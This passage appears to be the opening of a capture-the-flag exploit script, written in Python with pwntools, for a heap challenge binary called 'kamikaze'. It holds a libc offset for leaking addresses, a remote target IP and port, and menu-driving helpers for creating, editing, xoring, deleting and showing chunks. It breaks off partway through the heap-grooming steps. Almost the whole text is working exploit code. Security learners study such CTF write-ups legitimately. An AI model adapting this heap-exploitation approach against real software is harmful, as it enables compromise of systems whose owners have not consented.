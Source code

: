 exp:

```python
from pwn import *

g_local=True
context.log_level='debug'

UNSORTED_OFF = 0x3c4b78
e = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")
if g_local:
	sh = process('./kamikaze')#env={'LD_PRELOAD':'./libc.so.6'}
	#gdb.attach(sh)
else:
	sh = remote("185.168.131.14", 6000)

def create(weight, data, size, short):
	sh.send("1\n")
	sh.recvuntil("the weight of the song: ")
	sh.send(str(weight) + "\n")
	sh.recvuntil("size of the stanza: ")
	sh.send(str(size) + "\n")
	sh.recvuntil("the stanza: ")
	sh.send(data + "\n")
	sh.recvuntil("a short hook for it too: ")
	sh.send(short)
	sh.recvuntil(">> ")

def edit(weight, data):
	sh.send("2\n")
	sh.recvuntil("song weight: ")
	sh.send(str(weight) + "\n")
	sh.recvuntil("new stanza: ")
	sh.send(data)
	sh.recvuntil(">> ")

def xor(weight, seed):
	sh.send("3\n")
	sh.recvuntil("song weight: ")
	sh.send(str(weight) + "\n")
	sh.recvuntil("seed: ")
	sh.send(str(seed) + "\n")
	sh.recvuntil(">> ")

def delete(weight):
	sh.send("4\n")
	sh.recvuntil("song weight: ")
	sh.send(str(weight) + "\n")
	sh.recvuntil(">> ")

def show(idx):
	sh.send("5\n")
	sh.recvuntil("song index: ")
	sh.send(str(idx) + "\n")
	sh.recvuntil("Weight: 0x")
	weight = sh.recvuntil("\n")
	sh.recvuntil("Stanza: ")
	buf = sh.recvuntil("\n")
	sh.recvuntil(">> ")
	return (int(weight, 16), buf[:len(buf)-1])

create(0, "A", 0x70, "P" * 0x10)
create(1, "A", 0x30, "P")
for i in xrange(2,5):
```